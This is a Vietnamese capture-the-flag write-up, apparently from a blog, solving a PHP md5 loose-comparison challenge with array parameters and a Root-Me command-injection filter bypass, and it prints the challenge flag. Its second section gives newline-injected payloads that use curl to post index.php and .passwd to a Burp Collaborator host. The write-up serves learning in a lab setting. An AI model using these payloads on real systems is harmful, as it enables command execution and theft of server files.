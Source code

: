 # 1.Challenge 4 (Chết)

![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/335086151_4272263046332618_3291264038354470674_n.png?stp=dst-png_s320x320&_nc_cat=102&ccb=1-7&_nc_sid=aee45a&_nc_ohc=F5g0bwHM-LMAX-imd-Y&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdQAARdIJrfvtRkSDEpONy1-2eRzZjI-LPuKajmESPPgBQ&oe=6434CF39)

Ta thấy để lấy được `flag` thì phải bypass được qua 2 điều kiện:
+ Thứ nhất `$_GET[0] != $_GET[1]` ở đây là so sánh lỏng lẻo rằng 2 giá trị này không được giống nhau.
+ Thứ 2  `md5($_GET[0]) === md5($_GET[1])` ở đây là so sánh nghiêm ngặt rằng 2 giá trị md5 phải giống nhau.

Ở đây mình nhập query là `?0[] = 1&1[] = 2` vì ta thấy 2 giá trị đã khác nhau rồi và ở đây thì khi md5 một mảng thì bị lỗi nên khi md5 2 giá trị thì bằng nhau.

![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/335578993_173737468777050_8310854485055079719_n.png?_nc_cat=101&ccb=1-7&_nc_sid=aee45a&_nc_ohc=fg5E1FHU_4EAX-qDl8M&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdSmcxWfu4TJEcEqGTFfrhTnKI2dGUDuMrEDWYW9Y7XkrA&oe=6434EB99)

# 2.Command injection - Filter bypass(Rootme)

![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/335753941_210693378293101_1109877931538859121_n.png?stp=dst-png_p206x206&_nc_cat=103&ccb=1-7&_nc_sid=aee45a&_nc_ohc=iU8h3QC56hcAX-st81I&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdSEcOXIuJle1cv69Myhf-tFKv0RuDp4aJWb60PGnNMqPg&oe=64356C7A)

Command injection là lỗ hổng bảo mật web cho phép kẻ tấn công có thể thực thi lệnh trên hệ thống của máy chủ.

Ban đầu mình gửi payload `127.0.0.1`:

![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/335897818_588489449859050_4839548524305999563_n.png?stp=dst-png_p206x206&_nc_cat=110&ccb=1-7&_nc_sid=aee45a&_nc_ohc=keFhUfeQ9oMAX_KrlCt&_nc_oc=AQkPn5UB6SAKv8P6U6b4vOK_rCyiX_XrqnLae6sUGImYccK5T8NDXn28HTyjXNJZ1FGiOydeUNRHSwanav1y_zr7&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdSwD-NqFENOMS1of3MnKziLoHtwy8ztLkau8vN5dEMgJw&oe=6435704C)

Nhận được thông báo thành công,tiếp đến mình thử `127.0.0.1;ls` thì nhận được thông báo `syntax error`

Sau đó mình thử dùng `127.0.0.1%0Als` thì nhận được thông báo `Ping OK` những không xem được giá trị.

Sau khi có xem qua tài liệu mình thấy bài này là dạng `blind OS command injection using out-of-band`.Ở đây mình dùng `burp collaborator` khi đó payload có thể là `127.0.0.1%0Acurl https://swsvbeo1rm6k6hd6hp5yc2upogu7i76w.oastify.com`:

![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/335768361_743205747460858_8772822659734854075_n.png?stp=dst-png_s480x480&_nc_cat=100&ccb=1-7&_nc_sid=aee45a&_nc_ohc=UgjNMJzUpJkAX-ix6Hz&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdT_gF29cHZO7NEj9YGHAj6ArWhuGWy9uhEb0oL-qEIHDQ&oe=64355537)

Nhận được thông báo `Ping OK` bây giờ mình cần đọc file `index.php` khi đó payload là `127.0.0.1%0Acurl -X POST -d @index.php  https://swsvbeo1rm6k6hd6hp5yc2upogu7i76w.oastify.com` trong đó @ tức là nội dung file:

![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/335541736_5902579873129622_768741694859685983_n.png?stp=dst-png_s720x720&_nc_cat=102&ccb=1-7&_nc_sid=aee45a&_nc_ohc=kg-70BVkNEAAX-uIqRp&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdRe_n5vS9RbXG9qfVCU5jhdqhROKKvLnSitsFbQpYN7ig&oe=643585DE)

Nhìn vào nội dung file mình thấy flag nằm ở file `.passwd`,tương tự mình cần đọc file `.passwd` payload sẽ là `127.0.0.1%0Acurl -X POST -d @.passswd https://swsvbeo1rm6k6hd6hp5yc2upogu7i76w.oastify.com`:

![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/335438216_564583928779982_3167350078417986652_n.png?stp=dst-png_s600x600&_nc_cat=107&ccb=1-7&_nc_sid=aee45a&_nc_ohc=AR1fKKg0rMwAX-vlumM&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdQJQH2_cOZDlTbqjvWJkJm0AxIY4wUT__E4TNAnd8DDow&oe=64355CA7)

> Flag : Comma@nd_1nJec7ion_Fl@9_1337_Th3_G@m3!!!
# 3.Challenge 5(Chết)
